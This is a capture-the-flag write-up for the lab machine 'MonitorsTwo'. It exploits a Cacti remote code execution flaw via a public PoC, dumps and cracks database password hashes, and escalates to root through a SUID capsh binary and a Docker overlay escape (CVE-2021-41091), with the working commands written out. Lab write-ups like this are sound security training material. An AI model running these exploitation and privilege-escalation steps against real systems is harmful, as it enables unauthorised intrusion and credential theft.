 # MonitorsTwo

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.78.86
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-29 23:41 EDT
Nmap scan report for 10.129.78.86
Host is up (0.16s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

Another web-based exploit.&#x20;

### Cacti

When we check the web port, we see that it is running Cacti.

<figure><img src="../../.gitbook/assets/image (1151).png" alt=""><figcaption></figcaption></figure>

The version run is actually vulnerable to one unauthenticated RCE exploit, and there are tons of PoCs online to use.

{% embed url="https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit" %}

This has to do with the polling of Cacti, and we just need to modify the exploit to point to our own IP address to get a shell.

<figure><img src="../../.gitbook/assets/image (1682).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We got a shell on the docker, so the next step is to escape it.&#x20;

### MySQL Passwords

Within the `/` directory, we can find a bash script:

```
www-data@50bca5e748b0:/$ ls -la
ls -la
total 84
drwxr-xr-x   1 root root 4096 Mar 21 10:49 .
drwxr-xr-x   1 root root 4096 Mar 21 10:49 ..
-rwxr-xr-x   1 root root    0 Mar 21 10:49 .dockerenv
drwxr-xr-x   1 root root 4096 Mar 22 13:21 bin
drwxr-xr-x   2 root root 4096 Mar 22 13:21 boot
drwxr-xr-x   5 root root  340 Apr 29 22:40 dev
-rw-r--r--   1 root root  648 Jan  5 11:37 entrypoint.sh
```

Here's the content of it:

```bash
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```

So we have a database password and we can enumerate the database. This docker doesn't have `python`, so we cannot spawn a shell via `pty`. Instead, we have to use the `-e` flag to enumerate the database since we don't have a proper shell.

```
www-data@50bca5e748b0:/var/www/html$ mysql --host=db --user=root --password=root cacti -e "show databases" 
<user=root --password=root cacti -e "show databases"
Database
information_schema
cacti
mysql
performance_schema
sys
```

We can extract the hashed password for the users within the database:

```
www-data@50bca5e748b0:/var/www/html$ mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

I ran `john` on the hashes, and managed to crack one of them to get `funkymonkey`.

![](<../../.gitbook/assets/image (3292).png>)

With this and a username, we can `ssh` into the machine as `marcus`. Then, grab the user flag.

### CVE-2021-41091 -> Root Shell

Within the `/var/mail` folder, there's some mail for `marcus`:

{% code overflow="wrap" %}
```
marcus@monitorstwo:/var/mail$ cat marcus 
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```
{% endcode %}

The first 2 vulnerabilities are not relevant, but the last one was rather interesting.&#x20;

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2021-41091" %}

In short, it appears that when dockers are created, some of the SUID binaries are carried over. In that case, we can enumerate the SUID binaries on the machine and find these using LinPEAS:

```
[+] SUID - Check easy privesc, exploits and write perms                                                                    
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                              
strace Not Found                                                                                                           
-rwsr-xr-x 1 root root 63K Feb  7  2020 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                                                                
-rwsr-xr-x 1 root root 44K Feb  7  2020 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 87K Feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 52K Feb  7  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 58K Feb  7  2020 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 31K Oct 14  2020 /sbin/capsh
-rwsr-xr-x 1 root root 35K Jan 20  2022 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 71K Jan 20  2022 /bin/su
-rwsr-xr-x 1 root root 55K Jan 20  2022 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
```

`capsh` has the SUID binary set, which is not the norm. Based on GTFOBins, we can run this command to spawn a root shell:

```
www-data@50bca5e748b0:/var/www/html$ capsh --gid=0 --uid=0 --
capsh --gid=0 --uid=0 --
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Great! Now we are root on the docker. Now, we can find the mounted point of this docker from the main machine, and we can create a `bash` SUID binary to get a shell.&#x20;

First we need to find the mount point using `df`:

```
marcus@monitorstwo:/var/lib/docker$ df
Filesystem     1K-blocks    Used Available Use% Mounted on
udev             1966928       0   1966928   0% /dev
tmpfs             402608    1232    401376   1% /run
/dev/sda2        7054840 4451424   2513656  64% /
tmpfs            2013040       0   2013040   0% /dev/shm
tmpfs               5120       0      5120   0% /run/lock
tmpfs            2013040       0   2013040   0% /sys/fs/cgroup
overlay          7054840 4451424   2513656  64% /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
shm                65536       0     65536   0% /var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
overlay          7054840 4451424   2513656  64% /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
shm                65536       0     65536   0% /var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
```

At`/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged` would bring us to the file system of the docker container. Then, using our root shell on docker, we can just use `chmod u+s /bin/bash` to spawn a SUID binary for the main machine to use.&#x20;

This works because of the CVE allowing for us to create SUID binaries across machines.&#x20;

We can see the SUID `bash` binary here:

<figure><img src="../../.gitbook/assets/image (2933).png" alt=""><figcaption></figcaption></figure>

We can get a root shell easily:

```
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p 
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
```

Rooted!
